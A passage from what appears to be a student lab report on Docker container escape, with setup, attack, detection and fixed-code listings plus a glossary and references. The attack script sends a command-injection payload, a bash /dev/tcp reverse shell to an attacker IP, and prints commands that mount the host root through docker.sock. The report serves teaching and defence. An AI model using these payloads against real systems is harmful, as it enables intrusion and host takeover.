#  Run this ONCE from the repo root after cloning.
# =============================================================

set -e

YELLOW='\033[1;33m'
GREEN='\033[0;32m'
RED='\033[0;31m'
NC='\033[0m'

banner() { echo -e "\n${YELLOW}[*] $1${NC}"; }
ok()     { echo -e "${GREEN}[+] $1${NC}"; }
err()    { echo -e "${RED}[-] $1${NC}"; exit 1; }

echo ""
echo -e "${YELLOW}  Docker Escape Demo -- Host Setup${NC}"
echo -e "${YELLOW}  VM1 (Victim) | 192.168.98.4${NC}"
echo ""

# -- 1. Check required files -----------------------------------
banner "Checking for required files..."

[ -f "./host/app.py" ]     || err "host/app.py not found."
[ -f "./host/Dockerfile" ] || err "host/Dockerfile not found."

ok "app.py found"
ok "Dockerfile found"

# -- 2. Check Docker -------------------------------------------
banner "Checking Docker..."

if ! command -v docker &>/dev/null; then
    banner "Docker not found -- installing..."
    apt-get update -qq && apt-get install -y docker.io
    systemctl enable --now docker
    ok "Docker installed and started"
else
    ok "Docker already installed: $(docker --version)"
fi

# -- 3. Build the vulnerable image -----------------------------
banner "Building NetDiag Docker image..."
docker build -t netdiag ./host/ && ok "Image 'netdiag' built successfully"

# -- 4. Stop any old container ---------------------------------
if docker ps -a --format '{{.Names}}' | grep -q "^netdiag-app$"; then
    banner "Removing old netdiag-app container..."
    docker rm -f netdiag-app
fi

# -- 5. Run with the intentional misconfiguration --------------
banner "Starting NetDiag container (with docker.sock mount)..."
docker run -d \
    -p 5000:5000 \
    -v /var/run/docker.sock:/var/run/docker.sock \
    --name netdiag-app \
    netdiag

ok "Container running!"

# -- 6. Done ---------------------------------------------------
echo ""
echo -e "${GREEN}Setup complete. NetDiag is LIVE.${NC}"
echo ""
echo -e "  App URL  : ${YELLOW}http://192.168.98.4:5000${NC}"
echo -e "  Vuln URL : ${YELLOW}http://192.168.98.4:5000/ping?host=8.8.8.8;id${NC}"
echo ""
echo -e "  Attacker should now run ${YELLOW}attack.sh${NC} on VM2."
echo ""
\end{lstlisting}

\vspace{0.5cm}

\subsection{attack.sh --- Attacker Machine Script}

\begin{lstlisting}[language=bash, caption={attack.sh --- drives the full attack chain from VM2}]
#!/bin/bash
# =============================================================
#  attack.sh  -  Attacker Machine (VM2 | 192.168.98.5)
#  Docker Escape Demo | GTU-SET Semester 4
#  Walks through each step of the attack chain interactively.
# =============================================================

VICTIM_IP="192.168.98.4"
ATTACKER_IP="192.168.98.5"
PORT=4444
TARGET="http://${VICTIM_IP}:5000"

YELLOW='\033[1;33m'
GREEN='\033[0;32m'
CYAN='\033[0;36m'
RED='\033[0;31m'
NC='\033[0m'

banner()  { echo -e "\n${YELLOW}[*] $1${NC}"; }
ok()      { echo -e "${GREEN}[+] $1${NC}"; }
info()    { echo -e "${CYAN}    $1${NC}"; }
pause()   { echo -e "\n${YELLOW}Press ENTER to continue...${NC}"; read -r; }

echo ""
echo -e "${RED}  Docker Escape Demo -- Attack Script${NC}"
echo -e "${RED}  VM2 (Attacker) | 192.168.98.5${NC}"
echo ""
echo -e "  Target  : ${YELLOW}${TARGET}${NC}"
echo -e "  Listen  : ${YELLOW}${ATTACKER_IP}:${PORT}${NC}"
echo ""

# -- STEP 1: Confirm RCE ---------------------------------------
banner "STEP 1 - Confirm Remote Code Execution"
info "Sending: GET /ping?host=8.8.8.8;id"
echo ""

RESPONSE=$(curl -s --max-time 10 \
    "${TARGET}/ping?host=8.8.8.8%3Bid" 2>/dev/null)

if echo "$RESPONSE" | grep -q "uid=0"; then
    ok "RCE confirmed! Response contains uid=0(root)"
    echo ""
    echo "$RESPONSE" | grep "uid=" | head -3
else
    echo -e "${RED}[-] No RCE detected. Is the victim app running?${NC}"
    echo "    Raw response: $RESPONSE"
    exit 1
fi

pause

# -- STEP 2: Reverse Shell -------------------------------------
banner "STEP 2 - Reverse Shell"
info "Opening netcat listener on port ${PORT}..."
info "Then sending reverse shell payload to victim."
echo ""
info "Once the shell connects, stabilize with:"
echo ""
echo -e "    ${CYAN}python3 -c 'import pty; pty.spawn(\"/bin/bash\")'${NC}"
echo -e "    ${CYAN}export TERM=xterm${NC}"
echo -e "    ${CYAN}# Ctrl+Z -> stty raw -echo; fg -> Enter twice${NC}"
echo ""

pause

if command -v xterm &>/dev/null; then
    xterm -title "Netcat Listener [:${PORT}]" \
        -e "nc -lvnp ${PORT}" &
elif command -v gnome-terminal &>/dev/null; then
    gnome-terminal -- bash -c "nc -lvnp ${PORT}; exec bash" &
else
    banner "Run this manually in another window:"
    echo -e "    ${YELLOW}nc -lvnp ${PORT}${NC}"
    pause
fi

sleep 1

banner "Sending reverse shell payload to victim..."
PAYLOAD="bash+-c+'bash+-i+>%26+/dev/tcp/${ATTACKER_IP}/${PORT}+0>%261'"
curl -s --max-time 5 \
    "${TARGET}/ping?host=8.8.8.8%3B${PAYLOAD}" &>/dev/null &

ok "Payload sent. Watch the listener window for your shell."

pause

# -- STEP 3: Post-exploitation reminder -----------------------
banner "STEP 3 - Inside the Container: Escape via docker.sock"
info "Run these commands in your reverse shell:"
echo ""
echo -e "  ${CYAN}# Verify the socket is mounted${NC}"
echo -e "  ${YELLOW}ls -la /var/run/docker.sock${NC}"
echo ""
echo -e "  ${CYAN}# Install Docker CLI inside the container${NC}"
echo -e "  ${YELLOW}apt-get update && apt-get install -y docker.io${NC}"
echo ""
echo -e "  ${CYAN}# Escape: mount host root and write a file${NC}"
echo -e "  ${YELLOW}docker -H unix:///var/run/docker.sock run -d \\"
echo -e "    -v /:/hostfs --rm alpine \\"
echo -e "    chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'${NC}"
echo ""
echo -e "  ${CYAN}# Verify on VM1 (host):${NC}"
echo -e "  ${YELLOW}cat /tmp/escaped.txt${NC}"
echo ""
echo -e "${GREEN}------------------------------------------${NC}"
echo -e "${GREEN} Attack chain complete if you see 'pwned'. ${NC}"
echo -e "${GREEN}------------------------------------------${NC}"
echo ""
echo -e "  Now switch to VM1 and run ${YELLOW}detect.sh${NC}."
echo ""
\end{lstlisting}

\vspace{0.5cm}

\subsection{detect.sh --- Detection Script}

\begin{lstlisting}[language=bash, caption={detect.sh --- post-attack detection and auditing on VM1}]
#!/bin/bash
# =============================================================
#  detect.sh  -  Victim Machine (VM1 | 192.168.98.4)
#  Docker Escape Demo | GTU-SET Semester 4
#  Run AFTER the attack to demonstrate detection techniques.
# =============================================================

YELLOW='\033[1;33m'
GREEN='\033[0;32m'
CYAN='\033[0;36m'
RED='\033[0;31m'
NC='\033[0m'

banner() { echo -e "\n${YELLOW}== $1 ==${NC}"; }
ok()     { echo -e "${GREEN}[+] $1${NC}"; }
warn()   { echo -e "${RED}[!] $1${NC}"; }
info()   { echo -e "${CYAN}    $1${NC}"; }

echo ""
echo -e "${CYAN}  Docker Escape Demo -- Detection${NC}"
echo -e "${CYAN}  VM1 (Host) | 192.168.98.4${NC}"
echo ""

# - CHECK 1: Proof of compromise --------------------------------
banner "CHECK 1 - Proof of Host Compromise"
info "Looking for /tmp/escaped.txt written from inside the container..."
echo ""

if [ -f /tmp/escaped.txt ]; then
    warn "HOST IS COMPROMISED"
    echo -e "  Contents: ${RED}$(cat /tmp/escaped.txt)${NC}"
else
    ok "No escape artifact found."
fi

# - CHECK 2: Inspect mounts -------------------------------------
banner "CHECK 2 - Inspect Container Mounts"
info "docker inspect netdiag-app | grep Mounts"
echo ""

if docker inspect netdiag-app &>/dev/null; then
    MOUNTS=$(docker inspect netdiag-app | python3 -c "
import sys, json
data = json.load(sys.stdin)
mounts = data[0].get('Mounts', [])
for m in mounts:
    print('  Source :', m.get('Source'))
    print('  Dest   :', m.get('Destination'))
    print()
" 2>/dev/null)

    echo "$MOUNTS"

    if echo "$MOUNTS" | grep -q "docker.sock"; then
        warn "docker.sock IS mounted -- critical misconfiguration!"
    else
        ok "docker.sock is NOT mounted."
    fi
else
    warn "Container 'netdiag-app' not found."
fi

# - CHECK 3: auditd ---------------------------------------------
banner "CHECK 3 - auditd: Monitor docker.sock Access"
info "Setting up audit rule for /var/run/docker.sock..."
echo ""

if ! command -v auditctl &>/dev/null; then
    info "auditd not installed. Installing..."
    apt-get install -y auditd -qq && systemctl enable --now auditd
fi

auditctl -w /var/run/docker.sock -p rwxa -k docker_sock 2>/dev/null && \
    ok "Audit rule set with key 'docker_sock'"

echo ""
info "Searching audit logs for docker.sock access..."
echo ""
AUDIT_HITS=$(ausearch -k docker_sock 2>/dev/null | tail -20)

if [ -n "$AUDIT_HITS" ]; then
    warn "Audit hits found:"
    echo "$AUDIT_HITS"
else
    info "No past audit hits (rule just added)."
fi

# - CHECK 4: Running containers ---------------------------------
banner "CHECK 4 - All Running Containers"
docker ps --format \
    "table {{.Names}}\t{{.Image}}\t{{.Status}}\t{{.Ports}}"

# - CHECK 5: Live socket processes ------------------------------
banner "CHECK 5 - Processes Accessing docker.sock Right Now"
echo ""
PROCS=$(lsof /var/run/docker.sock 2>/dev/null)
if [ -n "$PROCS" ]; then
    warn "These processes have docker.sock open:"
    echo "$PROCS"
else
    ok "No unexpected processes on docker.sock."
fi

# - Summary -----------------------------------------------------
echo ""
echo -e "${YELLOW}=====================================================${NC}"
echo -e "${YELLOW}  Detection Summary${NC}"
echo -e "${YELLOW}=====================================================${NC}"
echo ""
echo -e "  Tool            | What it caught"
echo    "  ----------------|------------------------------------"
echo    "  docker inspect  | docker.sock bind-mount"
echo    "  auditd          | socket access (ongoing logging)"
echo    "  lsof            | live processes on socket"
echo    "  Falco*          | runtime rules (not installed here)"
echo ""
echo    "  * Recommended for production environments."
echo ""
echo -e "${GREEN}  Fix: remove -v /var/run/docker.sock from docker run${NC}"
echo -e "${GREEN}  Fix: replace os.popen() with subprocess.run(list)${NC}"
echo ""
\end{lstlisting}

\vspace{0.5cm}

\subsection{Secure Code Fix --- app.py}

\begin{lstlisting}[language=Python, caption={app.py (fixed) --- subprocess list form eliminates command injection}]
from flask import Flask, request, render_template, abort
import subprocess
import re

app = Flask(__name__)

VALID_HOST = re.compile(r'^[a-zA-Z0-9.\-]{1,253}$')

@app.route('/')
def index():
    return render_template('index.html', result=None)

@app.route('/ping')
def ping():
    host = request.args.get('host', '')
    if not VALID_HOST.match(host):
        abort(400)
    result = subprocess.run(
        ['ping', '-c', '3', host],
        capture_output=True,
        text=True,
        timeout=10
    ).stdout
    return render_template('index.html', result=result)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
\end{lstlisting}

% ------------------------------------------------------------------

\chapter{Glossary of Terms}

\begin{itemize}

    \item \textbf{AppArmor} ---
    Linux Security Module providing mandatory access control via
    path-based profiles. Docker loads a default AppArmor profile
    for each container unless disabled.

    \item \textbf{Attack Surface} ---
    The set of entry points, interfaces, and data flows through
    which an attacker can attempt to compromise a system.

    \item \textbf{auditd} ---
    Linux audit daemon. Monitors kernel-level events (file access,
    syscalls) and writes structured logs to
    \texttt{/var/log/audit/audit.log}.

    \item \textbf{auditctl} ---
    Command-line utility for adding, removing, and listing
    \texttt{auditd} rules at runtime.

    \item \textbf{ausearch} ---
    Utility for querying \texttt{auditd} logs by key, user, PID,
    or time range.

    \item \textbf{Bind Mount} ---
    A mount type that maps a host filesystem path directly into a
    container's mount namespace via \texttt{mount(MS\_BIND)}.
    The host path and container path reference the same inode.

    \item \textbf{BPF (Berkeley Packet Filter)} ---
    Kernel virtual machine used to execute user-supplied filter
    programs in kernel space. Used by seccomp for syscall
    filtering.

    \item \textbf{Capabilities (Linux)} ---
    Fine-grained subdivision of root privilege into discrete
    units (e.g., \texttt{CAP\_SYS\_ADMIN},
    \texttt{CAP\_NET\_BIND\_SERVICE}). Docker drops most
    capabilities from containers by default.

    \item \textbf{cgroups (Control Groups)} ---
    Linux kernel feature that limits, accounts for, and isolates
    resource usage (CPU, memory, PIDs, I/O) per process group.

    \item \textbf{Command Injection} ---
    Vulnerability class (CWE-78) where unsanitized user input is
    passed to a shell execution function, allowing attacker-
    controlled commands to execute on the host OS.

    \item \textbf{containerd} ---
    Industry-standard container runtime (CNCF project) that
    manages container lifecycle. Sits between \texttt{dockerd}
    and \texttt{runc}.

    \item \textbf{containerd-shim} ---
    Lightweight process spawned per container by containerd.
    Supervises the container after \texttt{runc} exits and holds
    stdio file descriptors.

    \item \textbf{CVE (Common Vulnerabilities and Exposures)} ---
    Standardized identifier for publicly known security
    vulnerabilities. Format: CVE-YEAR-NUMBER.

    \item \textbf{DAC (Discretionary Access Control)} ---
    Standard Unix permission model: owner, group, and other
    read/write/execute bits on files and directories.

    \item \textbf{Docker} ---
    Toolchain for packaging, distributing, and running
    containerized applications. Comprises CLI, daemon
    (\texttt{dockerd}), and runtime stack (containerd, runc).

    \item \textbf{docker.sock} ---
    Unix domain socket at \texttt{/var/run/docker.sock} over
    which the Docker REST API is exposed. Access to this socket
    is equivalent to host root access.

    \item \textbf{dockerd} ---
    The Docker daemon process. Runs as UID 0 on the host.
    Accepts API requests from clients via \texttt{docker.sock}
    and delegates container execution to containerd.

    \item \textbf{eBPF (extended BPF)} ---
    Modern extension of BPF allowing safe user-supplied programs
    to run in kernel space for observability, networking, and
    security use cases. Used by Falco for runtime detection.

    \item \textbf{execve()} ---
    Linux syscall that replaces the current process image with a
    new program. Used by shells, runc, and Python's subprocess
    module to launch new executables.

    \item \textbf{Falco} ---
    CNCF runtime security tool. Uses eBPF or a kernel module to
    monitor syscall events and alert on rule-matching suspicious
    behaviour.

    \item \textbf{Flask} ---
    Lightweight Python web framework implementing the WSGI
    interface. Used to build the NetDiag vulnerable application.

    \item \textbf{fork()} ---
    Linux syscall that creates a child process as a copy of the
    parent. Child inherits UID, GID, open file descriptors, and
    environment.

    \item \textbf{GTU-SET} ---
    Gujarat Technological University School of Engineering and
    Technology.

    \item \textbf{IMDSv1 / IMDSv2} ---
    AWS Instance Metadata Service versions. IMDSv1 is accessible
    via simple HTTP GET. IMDSv2 requires a session-oriented PUT
    request, mitigating SSRF-based credential theft.

    \item \textbf{IOC (Indicator of Compromise)} ---
    Forensic artefact on a system that indicates a security
    incident has occurred or is in progress.

    \item \textbf{iptables} ---
    Linux kernel netfilter interface for packet filtering and
    NAT. Docker uses iptables to create DNAT rules for port
    mappings and MASQUERADE rules for container outbound traffic.

    \item \textbf{Kernel Space} ---
    CPU privilege ring 0. The operating system kernel executes
    here with full hardware access. User processes cannot execute
    directly in kernel space.

    \item \textbf{lsof} ---
    \textit{List open files}. Reads \texttt{/proc/*/fd/} to
    report all files (including sockets) currently open by
    running processes.

    \item \textbf{LSM (Linux Security Module)} ---
    Kernel framework providing hooks for mandatory access control
    systems. AppArmor and SELinux are LSM implementations.

    \item \textbf{MAC (Mandatory Access Control)} ---
    Access control policy enforced by the kernel regardless of
    user/process discretion. AppArmor and SELinux implement MAC.

    \item \textbf{Namespace (Linux)} ---
    Kernel mechanism that partitions a global resource so
    that each namespace provides an isolated instance. Types:
    PID, NET, MNT, UTS, IPC, USER, TIME, cgroup.

    \item \textbf{NetDiag} ---
    The intentionally vulnerable Flask application built for this
    lab. Exposes a \texttt{/ping} route with OS command injection.

    \item \textbf{Netcat (nc)} ---
    Network utility for reading and writing raw TCP/UDP
    connections. Used in this project as the reverse shell
    listener on the attacker machine.

    \item \textbf{OCI (Open Container Initiative)} ---
    Linux Foundation standards body defining the Runtime
    Specification and Image Specification for containers.

    \item \textbf{os.popen()} ---
    Deprecated Python function that opens a pipe to a shell
    command string via \texttt{/bin/sh -c}. Unsafe when
    used with unsanitized user input.

    \item \textbf{OverlayFS} ---
    Linux union filesystem used by Docker for container image
    layering. Combines read-only image layers
    (\texttt{lowerdir}) with a writable per-container layer
    (\texttt{upperdir}) into a merged view.

    \item \textbf{pivot\_root()} ---
    Linux syscall that changes the root filesystem of the
    calling process. Used by \texttt{runc} to set the
    container's root to its image filesystem.

    \item \textbf{Podman} ---
    Daemonless, rootless OCI container runtime. Drop-in
    replacement for Docker CLI without a central privileged
    daemon or socket.

    \item \textbf{PTY (Pseudo-Terminal)} ---
    Kernel-provided terminal emulation interface. Used in
    shell stabilization (\texttt{python3 -c 'import pty;
    pty.spawn("/bin/bash")'}) to convert a raw reverse
    shell into a fully interactive session.

    \item \textbf{RCE (Remote Code Execution)} ---
    Vulnerability class where an attacker causes a remote system
    to execute attacker-controlled commands without
    authenticated or physical access.

    \item \textbf{Reverse Shell} ---
    A shell session where the target machine initiates the
    outbound TCP connection to the attacker's listener, bypassing
    inbound firewall rules on the target.

    \item \textbf{runc} ---
    OCI-compliant low-level container runtime written in Go.
    Calls \texttt{clone()}, \texttt{pivot\_root()},
    \texttt{execve()} directly to create and start containers.

    \item \textbf{Seccomp} ---
    Linux kernel feature (Secure Computing Mode) that restricts
    which syscalls a process may invoke using BPF filter
    programs.

    \item \textbf{STRIDE} ---
    Microsoft threat modelling framework. Six threat categories:
    Spoofing, Tampering, Repudiation, Information Disclosure,
    Denial of Service, Elevation of Privilege.

    \item \textbf{subprocess.run()} ---
    Python standard library function for spawning subprocesses.
    When called with a list argument and \texttt{shell=False}
    (default), it calls \texttt{execve()} directly without a
    shell interpreter, preventing command injection.

    \item \textbf{Syscall (System Call)} ---
    The controlled interface between user space and kernel space.
    User processes request kernel services (file I/O, process
    creation, networking) via numbered syscall entries.

    \item \textbf{UDS (Unix Domain Socket)} ---
    IPC mechanism for same-host process communication via the
    kernel. Appears as a special file (\texttt{s} type) in the
    filesystem. Access governed entirely by filesystem
    permissions.

    \item \textbf{UID (User Identifier)} ---
    Numeric identifier for a user in the Linux kernel.
    UID 0 = root. Process UID determines file access rights
    and capability checks.

    \item \textbf{User Namespace} ---
    Linux namespace type that maps UIDs inside the namespace
    to different UIDs on the host. Used by rootless Docker to
    map container UID 0 to an unprivileged host UID.

    \item \textbf{veth (Virtual Ethernet)} ---
    Linux virtual network device created in pairs. One end
    placed in container network namespace (\texttt{eth0}),
    the other attached to the host's \texttt{docker0} bridge.

    \item \textbf{WSGI (Web Server Gateway Interface)} ---
    Python standard (PEP 3333) defining the interface between
    a web server and a Python web application. Flask implements
    the WSGI callable.

\end{itemize}

% ------------------------------------------------------------------

\chapter{References}

\subsection{Standards and Benchmarks}

\begin{itemize}

    \item Center for Internet Security.
    \textit{CIS Docker Benchmark}.
    Available at: \texttt{https://www.cisecurity.org/benchmark/docker}

    \item National Institute of Standards and Technology.
    \textit{NIST SP 800-190: Application Container Security Guide}.
    U.S. Department of Commerce, 2017.
    Available at: \texttt{https://csrc.nist.gov/publications/detail/sp/800-190/final}

    \item OWASP Foundation.
    \textit{Docker Security Cheat Sheet}.
    Available at:
    \texttt{https://cheatsheetseries.owasp.org/cheatsheets/Docker\_Security\_Cheat\_Sheet.html}

    \item OWASP Foundation.
    \textit{OWASP Top 10 --- 2021: A03 Injection}.
    Available at: \texttt{https://owasp.org/Top10/A03\_2021-Injection/}

    \item MITRE Corporation.
    \textit{CWE-78: Improper Neutralization of Special Elements
    used in an OS Command}.
    Available at: \texttt{https://cwe.mitre.org/data/definitions/78.html}

\end{itemize}

\subsection{CVEs Referenced}

\begin{itemize}

    \item MITRE Corporation.
    \textit{CVE-2019-5736: runc container breakout via
    /proc/self/exe}.
    National Vulnerability Database, 2019.
    Available at: \texttt{https://nvd.nist.gov/vuln/detail/CVE-2019-5736}

    \item MITRE Corporation.
    \textit{CVE-2020-15257: containerd abstract socket
    exposure}.
    National Vulnerability Database, 2020.
    Available at: \texttt{https://nvd.nist.gov/vuln/detail/CVE-2020-15257}

    \item MITRE Corporation.
    \textit{CVE-2022-0492: Linux kernel cgroup v1
    release\_agent privilege escalation}.
    National Vulnerability Database, 2022.
    Available at: \texttt{https://nvd.nist.gov/vuln/detail/CVE-2022-0492}

\end{itemize}

\subsection{Official Documentation}

\begin{itemize}

    \item Docker Inc.
    \textit{Docker Engine Security}.
    Available at: \texttt{https://docs.docker.com/engine/security/}

    \item Docker Inc.
    \textit{Docker Run Reference}.
    Available at: \texttt{https://docs.docker.com/engine/reference/run/}

    \item Docker Inc.
    \textit{Rootless Docker}.
    Available at:
    \texttt{https://docs.docker.com/engine/security/rootless/}

    \item Docker Inc.
    \textit{seccomp security profiles for Docker}.
    Available at:
    \texttt{https://docs.docker.com/engine/security/seccomp/}

    \item Docker Inc.
    \textit{AppArmor security profiles for Docker}.
    Available at:
    \texttt{https://docs.docker.com/engine/security/apparmor/}

    \item Open Container Initiative.
    \textit{OCI Runtime Specification}.
    Available at:
    \texttt{https://github.com/opencontainers/runtime-spec}

    \item The Linux Kernel Documentation Project.
    \textit{namespaces(7) --- Linux manual page}.
    Available at: \texttt{https://man7.org/linux/man-pages/man7/namespaces.7.html}

    \item The Linux Kernel Documentation Project.
    \textit{capabilities(7) --- Linux manual page}.
    Available at:
    \texttt{https://man7.org/linux/man-pages/man7/capabilities.7.html}

    \item The Linux Kernel Documentation Project.
    \textit{seccomp(2) --- Linux manual page}.
    Available at:
    \texttt{https://man7.org/linux/man-pages/man2/seccomp.2.html}

    \item Python Software Foundation.
    \textit{subprocess --- Subprocess management}.
    Python 3.11 Documentation.
    Available at: \texttt{https://docs.python.org/3/library/subprocess.html}

\end{itemize}

\subsection{Tools}

\begin{itemize}

    \item Falco Project (CNCF).
    \textit{Falco --- Cloud Native Runtime Security}.
    Available at: \texttt{https://falco.org}

    \item Tecnativa.
    \textit{Docker Socket Proxy}.
    Available at:
    \texttt{https://github.com/Tecnativa/docker-socket-proxy}

    \item Aqua Security.
    \textit{Trivy --- Vulnerability and Misconfiguration Scanner}.
    Available at: \texttt{https://aquasecurity.github.io/trivy}

    \item Google Container Tools.
    \textit{Kaniko --- Build Container Images in Kubernetes}.
    Available at:
    \texttt{https://github.com/GoogleContainerTools/kaniko}

    \item Podman Project (Red Hat).
    \textit{Podman --- A daemonless container engine}.
    Available at: \texttt{https://podman.io}

    \item Red Hat.
    \textit{Buildah --- A tool to build OCI container images}.
    Available at: \texttt{https://buildah.io}

\end{itemize}

\subsection{Books and Whitepapers}

\begin{itemize}

    \item Rice, Liz.
    \textit{Container Security: Fundamental Technology Concepts
    that Protect Containerized Applications}.
    O'Reilly Media, 2020.
    ISBN: 978-1492056706.

    \item Chelladhurai, Jeeva S., Chelliah, Pethuru Raj,
    and Kumar, Sathyajith Arjunan.
    \textit{Security Assurance for Containers}.
    In: \textit{Securing Docker Containers}, 2017.

    \item NCC Group.
    \textit{Understanding and Hardening Linux Containers}.
    NCC Group Whitepaper, 2016.
    Available at:
    \texttt{https://research.nccgroup.com/2016/03/07/understanding-and-hardening-linux-containers/}

    \item RedLock Cloud Security Intelligence.
    \textit{Cryptojacking Invades Cloud: How Modern Containerized
    Workloads Are Vulnerable (Tesla Breach Analysis)}.
    RedLock Inc., 2018.

\end{itemize}

\subsection{Academic and Research References}

\begin{itemize}

    \item Bui, Thanh.
    \textit{Analysis of Docker Security}.
    arXiv preprint arXiv:1501.02967, 2015.
    Available at: \texttt{https://arxiv.org/abs/1501.02967}

    \item Martin, A., et al.
    \textit{Docker Ecosystem Vulnerability Analysis}.
    Proceedings of the 2018 IEEE International Conference on
    Software Quality, Reliability and Security Companion
    (QRS-C), 2018.

    \item Combe, T., Martin, A., and Di Pietro, R.
    \textit{To Docker or Not to Docker: A Security Perspective}.
    IEEE Cloud Computing, vol. 3, no. 5, pp. 54--62, 2016.
    DOI: \texttt{10.1109/MCC.2016.100}

\end{itemize}


\end{document}